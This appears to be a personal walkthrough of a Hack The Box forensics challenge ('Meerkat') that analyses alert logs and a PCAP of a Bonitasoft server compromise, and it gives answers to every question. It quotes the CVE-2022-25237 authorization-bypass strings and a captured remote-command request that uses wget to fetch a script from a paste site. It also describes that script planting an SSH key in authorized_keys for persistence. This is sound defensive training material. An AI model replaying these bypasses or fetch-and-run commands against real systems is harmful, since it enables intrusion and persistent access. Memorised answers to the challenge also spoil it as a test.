 ```yaml
---
dg-publish: true
---
```

###### Summary 
 This Sherlock is focusing on working with Zeek logs and network analysis using PCAP.
 
[Link to this Sherlock on HTB Labs](https://app.hackthebox.com/sherlocks/552/play)

I used Timeline Explorer to process alert logs because I was working on Windows VM without WSL. Alternatively, jq could be used. For network analysis I used Wireshark, but Tshark was also required to answer one of the questions.
###### Challenge Scenario
"As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised."
###### Walkthrough
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
	While going through alert logs, I identified the following alert: `@{severity=1; signature=ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237); category=Attempted Administrator Privilege Gain; action=allowed; signature_id=2036818; gid=1; rev=1; metadata=}` at 2023-01-19T15:31:31.042Z

2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
	There a lot of HTTP Post requests containing credentials of work accounts. This is a sign of a credential stuffing.

3. Does the vulnerability exploited have a CVE assigned - and if so, which one?: 
	Answer to question 3 can be found initially during alerts analysis.

4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?: 
	While reading about the exploit https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/ I found out that Bonita appends either “/i18ntranslation/../” or “;i18ntranslation” to the API URL to allow authorization to be bypassed. I correlated this info with pcap in Wireshark and found the answer.
	![[Pasted image 20250212150133.png]]

5. How many combinations of usernames and passwords were used in the credential stuffing attack?: 
	Not difficult question yet I stuck here and had to address the official write-up. My Wireshark display filter `http.request.full_uri == "http://forela.co.uk:8080/bonita/loginservice" && !http` contains "install" was displaying 59 entries, but there were 3 repetitions in the very end which shouldn't have been counted. After additional research I concluded that the easiest way to find the solution to this question with a filters would be through Tshark command 
	`tshark -Y '(http.request.uri == "/bonita/loginservice") && (!http contains "install")' -r meerkat.pcap -T json | jq '.[]._source.layers.http."http.file_data"' | sort | uniq | wc -l`

6. Which username and password combination was successful?
	Looking through network logs we can see someone running a command whoami, it prompted me to follow HTTP stream and I was able to see there authentication attempt with positive response, namely status code 204.
	
	*The HTTP 204 No Content status code indicates that the server has successfully processed the request, but there is no content to send in the response body. This status code is particularly useful for operations that do not require the client to navigate away from the current page or display any new information. ![[Pasted image 20250216102441.png]]

7. If any, which text sharing site did the attacker utilise?
	Continuing investigating Wireshark logs we are able to see a GET request with remote command execution which has a website URL that fits out description. 
	`GET/bonita/API/extension/rcep=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8 HTTP/1.`

8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
	If we carefully follow the link above (using Browserling, for example) we can see a bash script that appends data from https://pastes.io/raw/hffgra4unv to `/home/ubuntu/.ssh/authorized_keys`. The data it retrieves is SSH key, and it is also seen that TA executes ssh restart after getting the key. Hence, we can conclude this is used to achieve persistence.

9. Can you confirm the file modified by the attacker to gain persistence?
	Answer can be found in the previous question.

10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
	Account Manipulation: SSH Authorized Keys sub-technique is on MITRE website, which confirms the previous assumption.

 